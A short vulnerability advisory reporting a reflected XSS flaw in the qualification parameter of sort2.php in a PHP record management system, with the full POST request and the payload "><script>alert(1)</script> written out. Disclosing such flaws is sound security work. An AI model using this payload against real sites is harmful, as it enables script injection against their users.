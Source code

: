 ### VUL_AUTHOR:netmanzhang
# Record management system – reflected XSS on (sort2.php qualification parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
sort2.php 

On this page, qualification parameter is vulnerable to reflected XSS Attack 
## Proof of vulnerability:
### Request:
```
POST http://localhost/Personnel_record_management_system/sort2.php HTTP/1.1
Host: localhost
Content-Length: 54
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.100/Personnel_record_management_system/sort.php
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Connection: close

qualification=Sort+Personnel+by+Qualification"><script>alert(1)</script>&filter2=
```
## Payload：
```
"><script>alert(1)</script>
```
## Trigger popup：
<img width="416" alt="image" src="https://github.com/user-attachments/assets/2aeba119-5d3f-4183-90d2-4b2c08dee658">

